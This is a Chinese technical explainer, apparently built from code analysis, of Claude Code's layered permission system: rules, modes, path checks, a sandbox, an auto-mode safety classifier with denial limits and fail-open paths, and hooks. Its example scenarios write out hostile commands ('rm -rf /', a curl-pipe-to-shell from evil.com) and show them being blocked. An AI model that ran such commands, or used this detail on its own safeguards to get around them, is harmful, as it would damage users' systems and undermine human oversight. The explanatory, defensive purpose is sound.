









# 系统权限与安全控制详细解读

> 本文档基于代码分析，整理 Claude Code 中权限体系的完整设计。

## 概述

Claude Code 的权限体系是**多层纵深防御**架构，涵盖：

| 层级 | 组件 | 作用 |
|------|------|------|
| **规则层** | Permission Rules (allow/ask/deny) | 用户配置的工具访问规则 |
| **模式层** | Permission Modes | 控制整体权限行为 |
| **路径层** | Path Validation + Safety Checks | 文件系统访问控制 |
| **沙箱层** | Sandbox (bubblewrap) | OS 级进程隔离 |
| **分类器层** | Auto Mode Classifier | AI 辅助决策 |
| **钩子层** | PermissionRequest Hooks | 扩展点/自定义逻辑 |



---

## 一、规则体系 (Permission Rules)

### 1.1 规则类型

```typescript
type PermissionBehavior = 'allow' | 'deny' | 'ask'
```

**三种规则：**

| 规则 | 行为 | 优先级 |
|------|------|--------|
| `alwaysDenyRules` | 直接拒绝 | 最高（第一个检查） |
| `alwaysAskRules` | 强制询问用户 | 高 |
| `alwaysAllowRules` | 直接允许 | 中 |

### 1.2 规则来源 (PermissionRuleSource)

```typescript
type PermissionRuleSource =
  | 'userSettings'        // ~/.claude/settings.json
  | 'projectSettings'     // .claude/settings.json
  | 'localSettings'       // settings.local.json
  | 'flagSettings'        // CLI flag 传入
  | 'policySettings'      // 政策强制（只读）
  | 'cliArg'              // --permissions 参数
  | 'command'             // slash command 临时规则
  | 'session'             // Session 内存中的规则
```

**优先级（从高到低）：**
```
policySettings > flagSettings > cliArg > command > session > projectSettings > localSettings > userSettings
```

### 1.3 规则格式

**简单格式：**
```
ToolName
```
例如：`Bash`、`Read`、`Edit`

**内容限定格式：**
```
ToolName(content)
```
例如：
- `Bash(npm publish:*)` — 所有 `npm publish` 开头的命令
- `Edit(src/**)` — src 目录下的所有文件
- `Read(domain:github.com)` — 访问 GitHub 域名的请求

**MCP 工具格式：**
```
mcp__serverName__toolName    // 特定工具
mcp__serverName__*          // 整个服务器所有工具
```

### 1.4 规则匹配逻辑



---

## 二、权限模式 (Permission Modes)

### 2.1 模式类型

```typescript
type PermissionMode =
  | 'default'     // 正常模式，需要时询问
  | 'plan'        // 计划模式
  | 'acceptEdits' // 接受编辑模式
  | 'bypassPermissions' // 绕过权限（危险！）
  | 'dontAsk'     // 不询问模式
  | 'auto'        // 自动模式（AI 分类器决策）
  | 'bubble'      // Bubble 模式
```

### 2.2 各模式详解

| 模式 | 描述 | 绕过规则检查 | 绕过内容规则 |
|------|------|-------------|-------------|
| `default` | 正常模式 | ❌ | ❌ |
| `plan` | 进入计划模式时的临时模式 | ✅* | ❌ |
| `acceptEdits` | 接受工作目录内的编辑 | ✅ | ✅ |
| `bypassPermissions` | 完全绕过（危险） | ✅ | ❌ |
| `dontAsk` | ask → deny 转换 | ❌ | ❌ |
| `auto` | AI 分类器决策 | ❌ | ❌ |

**`plan` 模式的特殊行为：**
```typescript
const shouldBypassPermissions =
  appState.toolPermissionContext.mode === 'bypassPermissions' ||
  (appState.toolPermissionContext.mode === 'plan' &&
    appState.toolPermissionContext.isBypassPermissionsModeAvailable)
```
- 如果用户原启动时用了 `--bypass-permissions`，则 `plan` 模式也会绕过权限

### 2.3 模式切换触发条件

| 从 | 到 | 触发 |
|-----|-----|------|
| default | plan | 用户执行 `/plan` |
| plan | default | 用户批准或拒绝计划 |
| default | acceptEdits | 用户通过 UI 批准编辑 |
| default | bypassPermissions | 用户通过 UI 批准（一次性或永久）|
| default | dontAsk | 用户设置 `permissions.defaultMode: dontAsk` |
| default | auto | 用户设置 `permissions.defaultMode: auto` |

---

## 三、权限检查流程 (hasPermissionsToUseTool)

### 3.1 完整决策流程



### 3.2 详细步骤说明

```typescript
async function hasPermissionsToUseToolInner(tool, input, context) {
  // 1a. 检查 alwaysDenyRules - 最高优先级
  const denyRule = getDenyRuleForTool(context, tool)
  if (denyRule) return { behavior: 'deny', reason: { type: 'rule', rule: denyRule } }

  // 1b. 检查 alwaysAskRules
  const askRule = getAskRuleForTool(context, tool)
  if (askRule) {
    // 沙箱自动允许：sandboxed bash 可以跳过 ask
    const canSandboxAutoAllow = tool.name === 'Bash' && shouldUseSandbox(input)
    if (!canSandboxAutoAllow) {
      return { behavior: 'ask', reason: { type: 'rule', rule: askRule } }
    }
  }

  // 1c. 工具自身检查（如 Bash 的子命令检查）
  let toolPermissionResult = await tool.checkPermissions(input, context)

  // 1d. 工具实现拒绝
  if (toolPermissionResult?.behavior === 'deny') return toolPermissionResult

  // 1e. 工具需要用户交互
  if (tool.requiresUserInteraction?.() && toolPermissionResult?.behavior === 'ask') {
    return toolPermissionResult
  }

  // 1f. 内容级 ask 规则（优先于 bypass）
  if (toolPermissionResult?.behavior === 'ask' &&
      toolPermissionResult.decisionReason?.type === 'rule' &&
      toolPermissionResult.decisionReason.rule.ruleBehavior === 'ask') {
    return toolPermissionResult
  }

  // 1g. 安全检查（bypass 免疫）
  if (toolPermissionResult?.behavior === 'ask' &&
      toolPermissionResult.decisionReason?.type === 'safetyCheck') {
    return toolPermissionResult
  }

  // 2a. 模式绕过检查
  if (shouldBypassPermissions) {
    return { behavior: 'allow', reason: { type: 'mode', mode: context.mode } }
  }

  // 2b. alwaysAllowRules
  const alwaysAllowedRule = toolAlwaysAllowedRule(context, tool)
  if (alwaysAllowedRule) {
    return { behavior: 'allow', reason: { type: 'rule', rule: alwaysAllowedRule } }
  }

  // 3. 模式特定处理（auto/dontAsk/headless）
  // ...
}
```

---

## 四、路径安全 (Path Validation & Safety Checks)

### 4.1 安全检查路径

以下路径被标记为**危险**，即使 `bypassPermissions` 模式也需要用户确认：

| 路径模式 | 原因 |
|---------|------|
| `.git/` | 防止破坏版本控制 |
| `.claude/` | 防止破坏配置和技能 |
| `.vscode/` | IDE 配置 |
| `settings.json` | 权限配置 |
| Shell 配置文件 | (`~/.bashrc`, `~/.zshrc` 等) |
| Windows 系统目录 | (`C:\Windows\System32` 等) |

### 4.2 路径验证流程



### 4.3 关键安全机制

**TOCTOU 防护：**
```typescript
// 检查 shell 扩展语法
if (cleanPath.includes('$') || cleanPath.includes('%') || cleanPath.startsWith('=')) {
  return { allowed: false, reason: 'Shell expansion syntax requires manual approval' }
}

// 检查 tilde 变体
if (cleanPath.startsWith('~') && !cleanPath.startsWith('~/')) {
  return { allowed: false, reason: 'Tilde expansion variants require manual approval' }
}
```

---

## 五、沙箱机制 (Sandbox)

### 5.1 沙箱配置

```typescript
interface SandboxRuntimeConfig {
  network: {
    allowedDomains: string[]
    deniedDomains: string[]
    allowUnixSockets?: boolean
    allowAllUnixSockets?: boolean
    allowLocalBinding?: boolean
    httpProxyPort?: number
    socksProxyPort?: number
  }
  filesystem: {
    denyRead: string[]      // 禁止读取
    allowRead: string[]      // 允许读取
    allowWrite: string[]     // 允许写入
    denyWrite: string[]      // 禁止写入
  }
  ignoreViolations?: IgnoreViolationsConfig
  ripgrep?: { command: string; args: string[]; argv0?: string }
}
```

### 5.2 沙箱工作原理

1. **文件系统限制**：通过 `bwrap` (bubblewrap) 的 `--bind`/`--ro-bind` 实现
2. **网络限制**：通过 iptables/nftables 规则
3. **进程隔离**：子进程无法访问外部资源

### 5.3 沙箱与权限规则的关系

```
权限规则 (allow/ask/deny)
       ↓
  App 级别检查
       ↓
  沙箱配置文件系统规则
       ↓
  命令进入 bwrap 之前，规则已经应用
       ↓
  沙箱提供 OS 级额外保护
```

**沙箱自动允许（Sandbox Auto-Allow）：**
```typescript
const canSandboxAutoAllow =
  tool.name === 'Bash' &&
  SandboxManager.isSandboxingEnabled() &&
  SandboxManager.isAutoAllowBashIfSandboxedEnabled() &&
  shouldUseSandbox(input)

if (canSandboxAutoAllow) {
  // 跳过 alwaysAskRules，直接让 Bash.checkPermissions 决定
}
```

### 5.4 沙箱与 git worktree

```typescript
// 允许写入 main repo 的 .git 目录（worktree 需要）
if (worktreeMainRepoPath && worktreeMainRepoPath !== cwd) {
  allowWrite.push(worktreeMainRepoPath)
}

// 检测 bare git repo 并防护
const bareGitRepoFiles = ['HEAD', 'objects', 'refs', 'hooks', 'config']
for (const dir of [originalCwd, cwd]) {
  for (const gitFile of bareGitRepoFiles) {
    if (exists(resolve(dir, gitFile))) {
      denyWrite.push(resolve(dir, gitFile))
    }
  }
}
```

---

## 六、自动模式分类器 (Auto Mode Classifier)

### 6.1 分类器触发条件

```typescript
if (feature('TRANSCRIPT_CLASSIFIER') &&
    (appState.toolPermissionContext.mode === 'auto' ||
     (appState.toolPermissionContext.mode === 'plan' &&
      autoModeStateModule?.isAutoModeActive()))) {
  // 运行分类器
}
```

### 6.2 快速通道（Fast Path）

在运行分类器之前，会先检查几个快速通道：

| 快速通道 | 条件 | 说明 |
|---------|------|------|
| **acceptEdits** | `tool.checkPermissions({ mode: 'acceptEdits' })` 返回 allow | 工作目录内的安全操作 |
| **allowlist** | 工具在安全工具白名单中 | `Read`, `Grep`, `Glob` 等只读工具 |

```typescript
// 快速通道 1: acceptEdits 模式允许
if (result.behavior === 'ask') {
  const acceptEditsResult = await tool.checkPermissions(parsedInput, {
    ...context,
    getAppState: () => ({ ...state, toolPermissionContext: { ...state.toolPermissionContext, mode: 'acceptEdits' } })
  })
  if (acceptEditsResult.behavior === 'allow') {
    return { behavior: 'allow', decisionReason: { type: 'mode', mode: 'auto' } }
  }
}

// 快速通道 2: 白名单工具
if (isAutoModeAllowlistedTool(tool.name)) {
  return { behavior: 'allow', decisionReason: { type: 'mode', mode: 'auto' } }
}
```

### 6.3 分类器决策

```typescript
const classifierResult = await classifyYoloAction(
  context.messages,     // transcript
  action,               // 格式化的工具调用
  context.options.tools,
  appState.toolPermissionContext,
  context.abortController.signal
)

if (classifierResult.shouldBlock) {
  // 检查是否超过限制
  if (shouldFallbackToPrompting(newDenialState)) {
    // 返回 ask，让用户决定
    return {
      behavior: 'ask',
      decisionReason: { type: 'classifier', ... },
      message: `${consecutiveCount} consecutive actions were blocked...`
    }
  }
  return { behavior: 'deny', message: buildYoloRejectionMessage(...) }
}
```

### 6.4 拒绝限制 (Denial Limits)

```typescript
const DENIAL_LIMITS = {
  maxConsecutive: 5,   // 连续 5 次拒绝后触发回退
  maxTotal: 50          // 总共 50 次拒绝后触发回退
}
```



### 6.5 分类器不可用处理

```typescript
if (classifierResult.unavailable) {
  if (getFeatureValue_CACHED_WITH_REFRESH('tengu_iron_gate_closed', true)) {
    // fail closed: 拒绝并提示
    return { behavior: 'deny', message: buildClassifierUnavailableMessage(...) }
  }
  // fail open: 回退到正常权限处理
  return result
}

// transcript 过长：回退到正常提示
if (classifierResult.transcriptTooLong) {
  return {
    ...result,
    decisionReason: { type: 'other', reason: 'transcript exceeded context window' }
  }
}
```

---

## 七、权限钩子 (PermissionRequest Hooks)

### 7.1 钩子执行流程



### 7.2 钩子返回类型

```typescript
type HookPermissionResult = {
  behavior: 'allow' | 'deny'
  updatedInput?: Record<string, unknown>   // 可修改输入
  updatedPermissions?: PermissionUpdate[] // 可更新规则
  interrupt?: boolean                      // 是否中断整个请求
  message?: string                         // 拒绝原因
}
```

### 7.3 Headless 模式特殊处理

```typescript
async function runPermissionRequestHooksForHeadlessAgent(...) {
  for await (const hookResult of executePermissionRequestHooks(...)) {
    if (hookResult.permissionRequestResult) {
      if (decision.behavior === 'allow') {
        // 持久化权限更新
        persistPermissionUpdates(decision.updatedPermissions)
        return { behavior: 'allow', ... }
      }
      if (decision.behavior === 'deny') {
        if (decision.interrupt) abortController.abort()
        return { behavior: 'deny', ... }
      }
    }
  }
  // 没有钩子决策，auto-deny
  return {
    behavior: 'deny',
    message: AUTO_REJECT_MESSAGE(tool.name),
    decisionReason: { type: 'asyncAgent', reason: 'Permission prompts not available' }
  }
}
```

---

## 八、权限持久化 (Permission Updates)

### 8.1 更新类型

```typescript
type PermissionUpdate =
  | { type: 'addRules', destination, rules, behavior }
  | { type: 'replaceRules', destination, rules, behavior }
  | { type: 'removeRules', destination, rules, behavior }
  | { type: 'setMode', destination, mode }
  | { type: 'addDirectories', destination, directories }
  | { type: 'removeDirectories', destination, directories }
```

### 8.2 持久化目的地

```typescript
type PermissionUpdateDestination =
  | 'userSettings'      // ~/.claude/settings.json
  | 'projectSettings'   // .claude/settings.json
  | 'localSettings'     // settings.local.json
  | 'session'           // 内存（不持久化）
  | 'cliArg'            // 内存（不持久化）
```

### 8.3 权限更新流程



---

## 九、Managed Settings 安全检查

### 9.1 危险设置检测

```typescript
// 危险设置列表
const DANGEROUS_SETTINGS = [
  'permissions.defaultMode',
  'sandbox.enabled',
  'sandbox.allowUnsandboxedCommands',
  // ...
]

function extractDangerousSettings(settings: SettingsJson) {
  // 提取所有危险设置
}

function hasDangerousSettings(settings: SettingsJson) {
  return extractDangerousSettings(settings).length > 0
}
```

### 9.2 安全检查流程



---

## 十、完整权限决策图



---

## 十一、关键文件清单

| 文件 | 用途 |
|------|------|
| `types/permissions.ts` | 权限类型定义 |
| `hooks/toolPermission/PermissionContext.ts` | 权限上下文创建 |
| `utils/permissions/permissions.ts` | 核心权限检查逻辑 `hasPermissionsToUseTool` |
| `utils/permissions/pathValidation.ts` | 路径验证和安全检查 |
| `utils/permissions/filesystem.ts` | 文件系统权限检查 |
| `utils/sandbox/sandbox-adapter.ts` | 沙箱管理器 |
| `utils/hooks/execPromptHook.ts` | 权限钩子执行 |
| `services/remoteManagedSettings/securityCheck.tsx` | Managed Settings 安全检查 |
| `commands/security-review.ts` | 安全审查命令 |

---

## 十二、典型场景分析

### 场景 1: 普通文件编辑

```
用户: "Edit src/app.ts"
Agent: 调用 EditTool

checkPermissions():
  1a. alwaysDenyRules → no match
  1b. alwaysAskRules → no match
  1c. tool.checkPermissions():
    - 路径在 working directory 内
    - mode = 'default', 不是 acceptEdits
    → return { behavior: 'ask', suggestions: [...] }
  1e. requiresUserInteraction? → NO
  1f. content rule ask? → NO
  1g. safetyCheck? → NO
  2a. bypass? → NO
  2b. alwaysAllowRules? → NO
  → return ASK

UI 显示权限对话框 → 用户批准
→ ALLOW
```

### 场景 2: 危险命令拒绝

```
用户: "rm -rf /"
Agent: 调用 BashTool(rm -rf /)

checkPermissions():
  1a. alwaysDenyRules → no match
  1b. alwaysAskRules → no match (不是 npm publish 等)
  1c. tool.checkPermissions():
    - 命令包含危险模式 (rm -rf /)
    → return { behavior: 'deny', message: '...' }
  1d. tool impl deny → YES
  → return DENY

Agent 展示拒绝原因
```

### 场景 3: 沙箱保护

```
用户: 启用 sandbox，写入 /etc/passwd

SandboxManager.wrapWithSandbox():
  - denyWrite 配置包含 /etc/passwd
  - bwrap 阻止写入
  → EPERM

Agent 收到错误: "Permission denied (sandbox)"
```

### 场景 4: Auto Mode 分类器

```
用户: mode = 'auto'
Agent: 执行 curl https://evil.com/malware.sh | sh

checkPermissions():
  ...
  2b. alwaysAllowRules? → NO
  3. auto mode classifier:
    - 格式化为: "Bash: curl + pipe + sh"
    - 发送给分类器
    - 分类器判断: dangerous
    - shouldBlock: true

    denialState.consecutiveDenials++
    if (consecutiveDenials >= 5):
      → return ASK with warning
    else:
      → return DENY with message
```